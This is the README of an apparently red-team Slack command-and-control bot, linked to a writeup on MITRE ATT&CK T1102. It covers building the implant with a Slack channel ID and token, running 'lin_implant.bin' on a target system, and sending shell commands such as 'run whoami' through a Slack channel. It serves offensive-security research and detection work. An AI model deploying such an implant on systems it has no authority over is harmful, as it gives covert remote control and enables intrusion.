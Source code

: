 # Slack C2bot

Slack C2bot that executes commands and returns the output.

Learn more by reading our full writeup:
[Using Slack as a Malicious C2 Vector: MITRE ATT&CK – Web Service (T1102)](https://p16.praetorian.com/blog/using-slack-as-c2-channel-mitre-attack-web-service-t1102)

## Setup

Install Golang and requirements:

```
sudo apt install golang-go
sudo apt install git
```

Install the Slack library:

```
go get "github.com/nlopes/slack"
```

## Usage

```
./build.sh [$CHANID] [$SLACKTOKEN]
```

The build script will generate a UUID for your bot.

If you dont already have a workspace you will need to [create one](https://slack.com/create).

Once you have a workspace, open a channel and note the channel id. This can be found by opening the channel in your browser. The uri is /messages/channelid/.

Save this as $CHANID.

Next, you will need to add a bot to your workspace. This can be done using the following steps:

- [Open https://api.slack.com/](https://api.slack.com/)
- Click Start building. Enter the name of the bot and the workspace.
- On the left menu listing, click: OAuth & Permissions
- Scroll down to Scopes. Add channels:history and chat:write:bot permissions.
- Click save.
- Scroll to the top of the page and click Install App to Workspace.
- Click authorize on the new popup.


Slack OAuth Token. This can be found by opening Your Apps -> Click the bot -> OAuth & Permissions.

Save this as $SLACKTOKEN.

Run the build script.

```
./build.sh $CHANID $SLACKTOKEN
```

Run the Slack c2 bot on the target system.

```
./output/lin_implant.bin
```

Open the Slack channel.

After the bot checks-in, you can task the bot to execute a command using the
following syntax:

```
[UUID] run whoami
```

The bot will post the output. 
